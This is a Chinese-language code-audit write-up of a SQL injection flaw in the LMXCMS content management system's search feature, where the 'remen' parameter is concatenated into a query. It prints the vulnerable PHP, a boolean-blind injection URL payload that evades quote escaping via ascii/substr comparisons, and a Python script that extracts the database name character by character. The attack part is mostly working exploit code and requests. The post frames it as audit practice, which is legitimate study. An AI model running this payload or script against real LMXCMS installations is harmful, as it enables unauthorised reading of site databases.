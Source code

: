 ```php
    $this->param['field'] = $data['field'];
    $this->param['time'] = $data['time'] ? $data['time'] : $this->config['search_time'];
    $this->param['tuijian'] = $data['tuijian'];
    $this->param['remen'] = $data['remen'];
}
```

这里需要注意的是 `$data = p(2,1,1);` 这个地方会对我们输入的参数进行转义单引号，过滤了部分函数。

这个方法其实还告诉了一个我们比较有用的信息

```php
$this->param['tem'] = $data['tem'];
$this->param['field'] = $data['field'];
$this->param['time'] = $data['time'] ? $data['time'] : $this->config['search_time'];
$this->param['tuijian'] = $data['tuijian'];
$this->param['remen'] = $data['remen'];
```

这个几个是都可以作为参数做传递的,下面我通过`remen`进行测试

## 漏洞测试

发送如下请求：`/index.php?m=Search&a=index&classid=5&tem=index&field=title&keywords=c&remen=11` 看打印的SQL 为：

```sql
SELECT count(1) FROM lmx_product_data  WHERE time > 1626240056 AND remen=11 AND classid in(11,12,13,14,5)  AND (title like '%c%')  ORDER BY id desc
```

可以看到我们传递的 `remen` 已经被拼接到SQL 中，剩下的就是进行注入测试。

发送请求 `/index.php?m=Search&a=index&classid=5&tem=index&field=title&keywords=c&remen=2%20or%20(if(ascii(substr(database(),1,1))=0x6c,1,0))--+`
因为单引号会被转义，所以这里使用的是`ascii`, 我们测试设置的数据库的名字是 `lmxcms`, 第一位是 l 对应的 就是 `0x6c`, 这个时候页面返回的 `Content-Length: 7722` 如果我们的值不是  `0x6c` 返回的长度为 `Content-Length: 4955`

所以可以基于这个写代码来获取数据库信息

```python
import requests

url = "http://192.168.80.154:9090?m=search&keywords=b&mid=1&remen=1 or (if(ascii(substr(database(),{},1))={},1,0))--+"
result = ""

for i in range(1, 7):
    for j in range(80, 180):
        cl = url.format(i, hex(j))
        res = requests.get(cl)
        if len(res.text) > 6000:
            result += chr(j)
            print(result)
```

## 小结

这个漏洞是一个非常好的代码审计的下例子，代码也不复杂，即使不懂 `PHP` 的也可以快速入门

## 相关链接

- <https://xz.aliyun.com/t/11224>
- <http://www.lmxcms.com/down/xitong/20210530/14.html>
